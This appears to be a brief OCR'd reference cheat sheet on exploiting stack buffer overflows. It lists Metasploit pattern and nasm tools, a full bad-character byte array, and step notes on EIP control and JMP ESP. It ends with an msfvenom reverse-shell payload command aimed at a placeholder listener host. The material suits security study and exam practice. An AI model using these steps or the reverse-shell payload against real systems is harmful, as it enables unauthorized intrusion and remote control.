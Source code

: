 # **Buffer Overflow** #

## **What is Buffer Overflow?** ##
A buffer overflow occurs when a program attempts to store more data in a buffer, or temporary storage area, than it was designed to hold. This can lead to the excess data overwriting adjacent memory locations, potentially causing the program to behave unpredictably, crash, or even allow attackers to execute malicious code. It's a common security vulnerability that can be exploited by attackers to gain unauthorized access to a system or escalate their privileges.

## **Payload** ##

```
payload = "\x41" \* + + "\x90" \* 16 + + "\x43" \*
```

## **Pattern create** ##

```
/usr/share/metasploit-framework/tools/exploit/pattern\_create.rb -l
```

## **Pattern offset** ##

```
/usr/share/metasploit-framework/tools/exploit/pattern\_offset.rb -l -q
```

## **nasm** ##

```
/usr/share/metasploit-framework/tools/exploit/nasm\_shell.rb
```

nasm > jmp eax


## **Bad characters** ##

```
badchars = (

"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"

"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"

"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"

"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"

"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"

"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"

"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"

"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"

"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"

"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"

"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"

"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"

"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"

"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"

"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"

"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )
```


## **Buffer Overflow** ##

* Determine length of overflow trigger w/ binary search "A"x1000

* Determine exact EIP with pattern\_create.rb & pattern\_offset.rb

* Determine badchars to make sure all of your payload is getting through

* Develop exploit

* Is the payload right at ESP

* JMP ESP

* Is the payload before ESP

* sub ESP, 200 and then JMP ESP

or

* call \[ESP-200]
```
msfvenom -a x86 --platform windows/linux -p something/shell/reverse\_tcp lhost=x.x.x.x lport=53 -f exe/elf/python/perl/php -o filename
```

Make sure it fits your payload length above

Gain shell, local priv esc or rooted already?

